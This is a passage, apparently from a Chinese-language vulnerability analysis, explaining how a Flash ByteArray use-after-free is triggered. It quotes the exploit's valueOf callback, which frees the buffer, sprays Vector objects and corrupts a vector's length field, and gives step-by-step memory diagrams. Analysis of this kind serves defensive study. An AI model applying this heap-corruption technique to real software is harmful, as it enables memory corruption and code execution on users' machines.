 这一步是触发漏洞的关键，由于ByteArray的元素类型是Byte，当把Clasz类赋值给ByteArray[3](http://drops.javaweb.org/uploads/images/af29e9bb96f254ba324bce79d7261cfa904a6dae.jpg)时，AVM会试图将其转化为Byte，此时Clasz的valueOf函数将被调用：

```
prototype.valueOf = function()
        {
            ref = new Array(5);
            collect.push(ref);

            // realloc
            _ba.length = 0x1100;

            // use after free
            for (var i:int; i < ref.length; i++)
                ref[i] = new Vector.<uint>(0x3f0);

            return 0x40
        }

```

在valueOf函数中，最关键的一部是更改了ByteArray的长度，将其设置成为0x1100，这个操作将会触发ByteArray内部buffer的重新分配，旧的buffer（大小为0x1000）将会被释放。紧接着exploit代码会分配若干个vector对象，每个vector同样占用0x1000字节的内存，试图去重新使用已经释放的ByteArray buffer的内存。

valueOf函数返回0x40，然后0x40会被写入`buffer[3]`这里，如果逻辑正确，那么此处应该写入的是新分配的buffer；然而由于代码漏洞，这里写入的已经释放的0x1000大小的旧buffer，于是事实上写入的是vector对象的头部，整个过程如下：

1 ByteArray创建并设置长度0xfe0:

```
old buffer      |                                               |
                0                                               0x1000

```

2 设置`_ba[3]`，调用valueOf，在valueOf中设置ByteArray.length = 0x1100，此时old buffer被释放

```
old buffer (Freed)      |                                               |
                        0                                               0x1000

```

3 然后0x1000大小的vector占据old buffer内存，前4个字节是vector的长度字段：

```
Vector                  | f0 03 00 00                          |
                        0                                       0x1000

```

4 valueOf返回0x40，0x40被写入`buffer[3]`，由于UAF漏洞的存在，写入的是vector的size字段：

```
Vector                  | f0 03 00 40                           |
                        0                                       0x1000

```
